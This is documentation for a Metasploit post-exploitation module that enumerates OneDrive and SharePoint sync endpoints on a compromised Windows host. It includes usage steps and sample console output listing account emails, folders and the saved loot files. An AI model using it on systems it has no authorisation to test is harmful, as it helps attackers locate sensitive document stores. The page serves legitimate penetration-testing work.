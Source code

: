 ## Vulnerable Application

  This module lists the Microsoft 365 Sharepoint/Onedrive endpoints that are being synchronised
  by the OneDrive application on a target Windows system. It will attempt to do this for every
  local user on the system (subject to permissions) and will also create a CSV with the
  results in loot.

  A user can only have one OneDrive personal account synchronised, but can have many business
  accounts synchronised. In addition, within the business accounts, there can be several 'teamsites'
  (for example, MS Teams document libraries).

  These listings can highlight document libraries or repositories that contain sensitive information,
  or simply provide an additional source of information during an engagement.

## Verification Steps

  1. Start `msfconsole`
  2. Gain a Meterpreter session on a Windows system running OneDrive.
  3. Type: `use post/windows/gather/enum_onedrive`
  4. Type: `set SESSION <session id>`
  5. Type: `run`

## Options

### SESSION

The session to run the module on.

## Scenarios

### Windows 10 x64 v2004 With OneDrive Installed But No Accounts
```
msf6 exploit(multi/handler) > use post/windows/gather/enum_onedrive 
msf6 post(windows/gather/enum_onedrive) > show options

Module options (post/windows/gather/enum_onedrive):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.

msf6 post(windows/gather/enum_onedrive) > set SESSION 2 
SESSION => 2
msf6 post(windows/gather/enum_onedrive) > run

[-] Error loading USER S-1-5-21-3917347361-1576396349-327053466-1000: Profile doesn't exist or cannot be accessed
[-] Error loading USER S-1-5-21-3917347361-1576396349-327053466-1001: Profile doesn't exist or cannot be accessed
[*] Looking for OneDrive sync information for S-1-5-21-3917347361-1576396349-327053466-1000
[-] (HKU\S-1-5-21-3917347361-1576396349-327053466-1000) OneDrive not installed.
[*] Looking for OneDrive sync information for S-1-5-21-3917347361-1576396349-327053466-1001
[-] (HKU\S-1-5-21-3917347361-1576396349-327053466-1001) OneDrive not installed.
[*] Looking for OneDrive sync information for S-1-5-21-3917347361-1576396349-327053466-1002
[-] (HKU\S-1-5-21-3917347361-1576396349-327053466-1002) OneDrive not installed.

[*] Post module execution completed
msf6 post(windows/gather/enum_onedrive) >
```

### Windows 10 x64 v2004 With OneDrive Installed and One Business and One Personal Account

```
msf6 exploit(multi/handler) > use post/windows/gather/enum_onedrive 
msf6 post(windows/gather/enum_onedrive) > set SESSION 3 
SESSION => 3
msf6 post(windows/gather/enum_onedrive) > run

[-] Error loading USER S-1-5-21-3917347361-1576396349-327053466-1000: Profile doesn't exist or cannot be accessed
[-] Error loading USER S-1-5-21-3917347361-1576396349-327053466-1001: Profile doesn't exist or cannot be accessed
[*] Looking for OneDrive sync information for S-1-5-21-3917347361-1576396349-327053466-1000
[-] (HKU\S-1-5-21-3917347361-1576396349-327053466-1000) No OneDrive accounts found.
[*] Looking for OneDrive sync information for S-1-5-21-3917347361-1576396349-327053466-1001
[-] (HKU\S-1-5-21-3917347361-1576396349-327053466-1001) No OneDrive accounts found.
[*] Looking for OneDrive sync information for S-1-5-21-3917347361-1576396349-327053466-1002
[+] OneDrive sync information for S-1-5-21-3917347361-1576396349-327053466-1002

  Business1
  =========

    Business: 1
    ServiceEndpointUri: https://testing33sdf-my.sharepoint.com/personal/test_testing33sdf_onmicrosoft_com/_api
    SPOResourceId: https://testing33sdf-my.sharepoint.com/
    UserEmail: test@testing33sdf.onmicrosoft.com
    UserFolder: C:\Users\normal\OneDrive - Foobar Notes
    UserName: test test

    | LibraryType: mysite
    | LastModifiedTime: 2021-01-27T22:11:09
    | MountPoint: C:\Users\normal\OneDrive - Foobar Notes
    | UrlNamespace: https://testing33sdf-my.sharepoint.com/personal/test_testing33sdf_onmicrosoft_com/Documents/

  Personal
  ========

    UserEmail: giziw21000@jentrix.com
    UserFolder: C:\Users\normal\OneDrive

    | LibraryType: personal
    | LastModifiedTime: 2021-01-27T21:16:04
    | MountPoint: C:\Users\normal\OneDrive
    | UrlNamespace: https://d.docs.live.net

[+] OneDrive sync information saved to /home/gwillcox/.msf4/loot/20210129095922_default_172.18.30.231_onedrive.syncinf_606475.txt in CSV format.
[*] Post module execution completed
msf6 post(windows/gather/enum_onedrive) > 
```

### Windows 10 x64 v2004 With OneDrive Installed and One Business and One Personal Account, But One Account Is Orphaned
```
msf6 exploit(multi/handler) > use post/windows/gather/enum_onedrive 
msf6 post(windows/gather/enum_onedrive) > set SESSION 3 
SESSION => 3
msf6 post(windows/gather/enum_onedrive) > run

[-] Error loading USER S-1-5-21-3917347361-1576396349-327053466-1000: Profile doesn't exist or cannot be accessed
[-] Error loading USER S-1-5-21-3917347361-1576396349-327053466-1001: Profile doesn't exist or cannot be accessed
[*] Looking for OneDrive sync information for S-1-5-21-3917347361-1576396349-327053466-1000
[-] (HKU\S-1-5-21-3917347361-1576396349-327053466-1000) No OneDrive accounts found.
[*] Looking for OneDrive sync information for S-1-5-21-3917347361-1576396349-327053466-1001
[-] (HKU\S-1-5-21-3917347361-1576396349-327053466-1001) No OneDrive accounts found.
[*] Looking for OneDrive sync information for S-1-5-21-3917347361-1576396349-327053466-1002
[+] OneDrive sync information for S-1-5-21-3917347361-1576396349-327053466-1002

  Personal
  ========

    UserEmail: giziw21000@jentrix.com
    UserFolder: C:\Users\normal\OneDrive

    | LibraryType: personal
    | LastModifiedTime: 2021-01-27T21:16:04
    | MountPoint: C:\Users\normal\OneDrive
    | UrlNamespace: https://d.docs.live.net

  ORPHANED
  ========

  LibraryType: mysite
  LastModifiedTime: 2021-01-27T22:11:09
  MountPoint: C:\Users\normal\OneDrive - Foobar Notes
  UrlNamespace: https://testing33sdf-my.sharepoint.com/personal/test_testing33sdf_onmicrosoft_com/Documents/

[+] OneDrive sync information saved to /home/gwillcox/.msf4/loot/20210129101238_default_172.18.30.231_onedrive.syncinf_127262.txt in CSV format.
[*] Post module execution completed
msf6 post(windows/gather/enum_onedrive) > 
```